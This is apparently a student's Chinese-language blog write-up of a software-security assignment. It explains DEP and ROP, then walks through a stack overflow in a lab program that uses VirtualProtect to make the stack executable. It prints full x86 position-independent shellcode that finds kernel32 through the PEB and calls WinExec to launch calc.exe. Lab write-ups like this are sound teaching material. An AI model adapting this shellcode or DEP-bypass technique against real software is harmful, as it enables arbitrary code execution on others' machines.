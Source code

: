 ```yaml
---
title: VirtualProtect绕过DEP
date: 2020-06-08 13:05:46
tags:
---
```

# 导语
这是我的软件安全作业，希望能同学们启发。
<!-- more-->
具体内容是设计一个shellcode绕过DEP保护然后让他打开计算器。

# DEP
数据执行保护 (DEP) 是一套软硬件技术，能够在内存上执行额外检查以防止在不可运行的内存区域上执行代码。 在 Microsoft Windows XP Service Pack 2、 Microsoft Windows Server 2003 Service Pack 1 、 Microsoft Windows XP Tablet PC Edition 2005 、 Microsoft Windows Vista 和 windows 7 中，由硬件和软件一起强制实施 DEP。DEP 有两种模式，如果CPU 支 持内存页NX 属性， 就是硬件支持的DEP。只有当处理器/系统支持NX/XD位（禁止执行）时，windows才能拥有硬件DEP，否则只能支持软件 DEP，相当于只有SafeSEH保护。
简单来说就是会检查你的eip指向的内存段属性，如果不是代码段就给你中断了。

DEP的绕过思路一般有以下三个
1. 关闭进程DEP
2. 将shellcode存储位置设置为可执行
3. 将shellcode写入可执行的位置

这里我们就采取的是思路2，利用VirtualProtect函数来修改shellcode所在内存的属性。

# ROP
说到绕过DEP，首先显然要说说ROP（return-oriented programming），ROP基本原理如下：
小部件(gadget)：内存中一个个以ret为结尾的指令序列（非常形象），我们像捡破烂一样收集它们。
ret指令：ret指令实际上就是将eip赋为esp指的值，再将esp增加两个字节，也就是将EIP设置为esp指向的值，也就是跳转到栈顶的值所指向的地址。
在整个过程中，eip都在我们收集的小部件上，而这些小部件都在代码段，所以DEP不会对他进行什么干涉，也就能事先我们要的功能了。

# VirtualProtect
VirtualProtect，是对应 Win32 函数的逻辑包装函数，它会在呼叫处理程序的虚拟位置空间里，变更认可页面区域上的保护。
具体接受的参数如下：
BOOL WINAPI VirtualProrect(
__in    LPVOID lpAddress ,      //指向需要修改保护属性的页的基地址。
__in    SIZE_T dwSize ,         //需改变保护属性的内存大小
__in    DWORD flNewProtect ,    //内存保护属性常量
__out  PDWORD lpflOldProtect    //原本内存保护属性的保存地址
);

flNewProtect可以设置为一下属性：
0x10 PAGE_EXECUTE：区域包含可被系统执行的代码。试图读写该区域的操作将被拒绝。
0x20 PAGE_EXECUTE_READ：区域包含可执行代码，应用程序可以读该区域。
0x40 PAGE_EXECUTE_READWRITE：区域包含可执行代码，应用程序可以读写该区域。
0x80 PAGE_EXECUTE_WRITECOPY： 启用对文件映射对象的映射视图的只读或写时复制访问。
0x01 PAGE_NOACCESS：任何访问该区域的操作将被拒绝。
0x02 PAGE_READONLY：该区域为只读。如果应用程序试图访问区域中的页的时候，将会被拒绝访问。
0x04 PAGE_READWRITE：区域可被应用程序读写。
详细内容请参考[memory protection constants](https://docs.microsoft.com/zh-cn/windows/win32/memory/memory-protection-constants)

利用VirtualProtect函数，我们就可以改变栈内内存的属性，使其变为可执行。

# 实际操作
打开老师发给我的程序，看看它是做什么的
![](2020~06~08~VirtualProtect绕过DEP/1.png)
他是导入一个文本文件然后将他的内容显示到文本框中，并且经过导入图片测试发现他并不能二进制打开文件并回显。
对这个程序栈溢出攻击，构造一个定位的payload
![](2020~06~08~VirtualProtect绕过DEP/2.png)
用windbg previewer来查看（因为他会在出错的地方中断但不处理，相当于自动断点，比较好使），这里还要记下esp的内容，在后面有用。
![](2020~06~08~VirtualProtect绕过DEP/3.png)
发现eip被覆盖为了0x68676665，也就是ascii的efgh，也就定位到了调用函数的返回地址，同时也可以查看堆栈的内存情况
![](2020~06~08~VirtualProtect绕过DEP/4.png)
下一步我们要做的就是覆盖返回地址为VirtualProtect函数的地址，使用ida查看引入函数表，找到VirtualProtect函数
![](2020~06~08~VirtualProtect绕过DEP/5.png)
值得注意的是，这里存放的是指向VirtualProtect函数的指针的地址，因此我们用OD打开这个程序，到对应地址找到VirtualProtect真正的地址
![](2020~06~08~VirtualProtect绕过DEP/6.png)
去那里验证一下是不是VirtualProtect,顺便加个断点，以便于之后的调试。
![](2020~06~08~VirtualProtect绕过DEP/7.png)
然后就是存放参数，在调用函数时候，函数地址后面会有两个DWORD被系统自己压栈，他们分别存放的是call之后下一条语句的地址和当前的ebp，这两个值没什么关系，因为改好了内存属性之后我们编写的shellcode会有对应的堆栈操作来使堆栈可以使用。而且call下一条语句由于VirtualProtect有ret指令也会直接将eip变为esp所指向的位置。
然后我们挨个往下放好参数即可，其中修改的内存基地址是在之前看的esp的内容。
![](2020~06~08~VirtualProtect绕过DEP/8.png)
利用之前的断点，可以看到call的参数（在右下角），这里我随便找了个之前用aaaa覆盖的地址来存放修改前的内存属性。
![](2020~06~08~VirtualProtect绕过DEP/9.png)
然后我们在网上找个打开计算器的shellcode（当然自己写更好）
```
_asm
    {
        //寻找kernel32.dll的基地址
        xor ecx, ecx;
        mov eax, dword ptr fs : [ecx + 30h]; //EAX = PEB
        mov eax, dword ptr[eax + 0Ch]; //EAX = PEB->Ldr
        mov esi, dword ptr[eax + 14h]; //ESI = PEB->Ldr.InMemOrder
        lods dword ptr[esi]; //EAX = Second module
        xchg eax, esi; //EAX = ESI, ESI = EAX
        lods dword ptr[esi]; //EAX = Third(kernel32)
        mov ebx, dword ptr[eax + 10h]; //EBX = Base address
        //查找kernel32.dll的导出表
        mov edx, dword ptr[ebx + 3Ch]; //EDX = DOS->e_lfanew
        add edx, ebx; //EDX = PE Header
        mov edx, dword ptr[edx + 78h]; //EDX = Offset export table
        add edx, ebx; //EDX = Export table
        mov esi, dword ptr[edx + 20h]; //ESI = Offset names table
        add esi, ebx; //ESI = Names table
        xor ecx, ecx; //EXC = 0
        //循环查找GetProcAddress函数
    Get_Function:
        inc ecx; //Increment the ordinal
        lods dword ptr[esi]; //Get name offset
        add eax, ebx; //Get function name
        cmp dword ptr[eax], 50746547h; //GetProcAddress
        jne Get_Function; //Get_Function
        cmp dword ptr[eax + 4], 41636F72h; //rocAddress
        jne Get_Function; //Get_Function
        cmp dword ptr[eax + 8], 65726464h; //ddress
        jne Get_Function; //Get_Function
        //寻找GetProcAddress 函数
        mov esi, dword ptr[edx + 24h]; //ESI = Offset ordinals
        add esi, ebx; //ESI = Ordinals table
        mov cx, word ptr[esi + ecx * 2]; //CX = Number of function
        dec ecx
            mov esi, dword ptr[edx + 1Ch]; //ESI = Offset address table
        add esi, ebx; //ESI = Address table
        mov edx, dword ptr[esi + ecx * 4]; //EDX = Pointer(offset)
        add edx, ebx; //EDX = GetProcAddress
        push ebx; //PUSH kernel32.Base address
        push edx; //PUSH kernel32.GetProcAddress
        //寻找WinExec函数地址
        xor ecx, ecx; //ECX = 0
        push ecx; //PUSH ECX
        mov ecx, 61636578h; //string acex
        push ecx; //PUSH ECX
        sub dword ptr[esp + 3], 61h; //Remove "a" ESP = &0012FE18--->string xec
        push 456E6957h; //string EniW
        push esp; //PUSH ESP WinExec
        push ebx; //PUSH EBX kernel32.Base address
        call edx; //CALL GetProcAddress
        add esp, 8; //ESP + 8
        pop ecx; //ECX = 0
        push eax; //PUSH EAX-- > kernel32.WinExec Addresss
        //赋值命令行字符串
        xor ecx, ecx; //ECX = 0
        push ecx; //PUSH ECX
        push 0x6578652E;
        push 0x636C6163; //calc.exe
        xor ebx, ebx; //EBX = 0
        mov ebx, esp; //EBX = "calc.exe"
        xor ecx, ecx; //ECX = 0
        inc ecx; //EXC = 1
        push ecx; //PUSH ECX = 1
        push ebx; //PUSH EBX = "calc.exe"
        call eax; //CALL WinExec
        //堆栈平衡
        add esp, 10h; //ESP + 50h
        pop edx; //EDX = kernel32.GetProcAddress
        pop ebx; //EBX = kernel32.Base Address
        //退出程序
        xor ecx, ecx; //ECX = 0
        mov ecx, 61737365h; //string asse
        push ecx; //PUSH ECX
        sub dword ptr[esp + 3], 61h; //Remove "a"
        push 636F7250h; //string; Proc
        push 74697845h; //string; Exit
        push esp; //string "ExitProcess"
        push ebx; //kernel32.dll base address
        call edx; //GetProcAddress(Exec)
        xor ecx, ecx; //ECX = 0
        push ecx; //Return code = 0
        call eax; //ExitProcess
    }

```
导出机器码，直接用winhex贴在被修改了内存属性的地址之后即可。
然后使用程序打开shellcode，就可以发现自动的弹出了计算器。

# 后记
如果想要自动生成rop的话推荐[mona插件](https://github.com/corelan/mona)
冲冲冲！



参考：
https://www.cnblogs.com/Wrong-Side/p/4547754.html
https://www.cnblogs.com/lei9019/archive/2012/02/20/2359020.html
https://www.cnblogs.com/bCPTdtPtp/p/12382726.html